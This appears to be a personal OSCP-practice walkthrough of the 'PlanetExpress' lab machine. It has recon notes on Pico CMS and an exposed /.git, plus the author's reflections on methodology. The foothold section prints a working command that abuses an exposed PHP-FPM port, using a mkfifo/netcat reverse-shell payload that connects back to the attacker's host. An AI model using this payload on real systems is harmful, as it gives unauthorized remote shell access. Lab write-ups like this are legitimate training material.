

# PlanetExpress Walkthrough
Name: PlanetExpress
Date:  20/9/2022
Difficulty:  Easy
Goals:  OSCP
Learnt: 
- `/usr/share/seclists/Discovery/Web-Content/quickhits.txt`
- I need make a dictionary of wordlists and flowchart of wordlists per situation - Instill questions of methodology
- Metacognitive Linux enlightment through SUID exploit that was more than just a GTFObins  

Had a rough day so my recon not very well as I tripped up recursively thinking about how my recon was doing, but feroxbuster had already found the /.git that has the vulnerable Pico (had the github opne) and I already searchsploited; so really my attitude and the lack of personal mentalised cleaning of previous events of the day really busted this one.  I also did not connect PHP -> PIco therefore varient of phpmyadmin.php

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Pico CMS Version - ?


This is where I tripped up. I did not patiently check the source of Pico for the config directory.


## Exploit && Foothold
[Fastcgi PHP-FPM Client && Code Execution](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)
```bash
# Has to be port 80
python3 fpm.py -c "<?php passthru('rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c \"cat /tmp/x | /bin/sh -i 2>&1 | nc $LHOST 80 > /tmp/x\"'); ?>" -p 9000 $target-ip /var/www/html/planetexpress/plugins/PicoTest.php
# The first flag
cat /home/astro/local.txt
```

## PrivEsc

Ran LinEnum.sh and some manual PrivEsc commands, had a more metacognitive moment of connecting file permissions - binary - suid bit and as followed the walkthrough explore how to think about the suid binary exploit